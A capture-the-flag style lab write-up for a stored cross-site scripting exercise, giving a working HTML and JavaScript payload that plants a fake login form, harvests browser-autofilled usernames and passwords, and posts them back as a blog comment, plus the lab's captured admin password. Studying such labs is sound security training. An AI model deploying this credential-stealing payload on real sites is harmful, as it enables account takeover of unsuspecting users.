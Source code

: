 ### Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

**Note**  

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.

_____

Analysis and Exploitation:

1. Post comment with HTML to build a simplified form with username and password fields.

Set IDs to easily select them from Javascript.
```html
<section>
    <form class=login-form method=POST action=/login>
        <label>Username</label>
            <input required type=username name="username" id="user2hack">
        <label>Password</label>
            <input required type=password name="password" id="psw2hack">
            <button class=button type=submit> Log in </button>
    </form>
</section>
```
and Javascript payload with trigger on change state of 'password input field' after click event on the ' user input field'. 

```html
<script>
// FUNCTION TO GRAB USERNAME AND PASSWORD INPUT FIELDS VALUES
function grabUserPsw(){
    var username = document.getElementById("user2hack").value;
    var password = document.getElementById("psw2hack").value;
// RETURN VALUES AS ARRAY
    return [username, password]
};

// FUNCTION TO POST CREDENTIALS AS COMMENT ON ANOTHER PAGE postId=2
function postCreds(){
// EXECUTE grabUserPsw FUNCTION
    var creds = grabUserPsw();
    var username = creds[0];
    var password = creds[1];
    var credentials = "username:" + username + " - password:" + password;
    var domain = document.domain;
    var csrf = document.getElementsByName("csrf")[0].defaultValue;
    var details = {
        "csrf" : csrf,
        "postId" : 2,
        "comment" : credentials,
        "name" : "victim",
        "email" : "test@test.test",
        "website" : "http://victim"
    };
// PREPARE FORMDATA ARRAY WITH URL ENCODED VALUES AND CONCAT THEM BY CHAR '&'
    formBody = [];
    for (property in details){
        var encodedKey = encodeURIComponent(property);
        var encodedValue = encodeURIComponent(details[property]);
        formBody.push(encodedKey + "=" + encodedValue)
    };
    formBody = formBody.join("&");

    fetch("https://"+domain+"/post/comment", {
        method : "POST",
        headers : {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body : formBody
    });
};
// WAIT FOT DOM DOCUMENT TO BE LOADED AND ATTACH 'onChange' EVENT TO THE PASSWORD INPUT FIELD
// CHROME AUTOFILL TAKES EFFECT ONLY AFTER A USER INTERACTION IN THE WINDOW (CLICK, KEYPRESS...)
document.body.onload = function(e){
    document.getElementById("psw2hack").addEventListener("change", function(e){
        postCreds();
    });
// FORCE MOUSE CLICK ON USERNAME INPUT FIELD TO TRIGGER THE LISTENER ABOVE
    document.getElementById("user2hack").click()
}
</script>
```

2. Grab the victim's username and password to log in  

    ```<p>username:administrator - password:9ksp3rjkzqztpg5t4tkw</p>```

3. Check if lab is solved
    - if "Congratulations, you solved the lab!" in response: ok!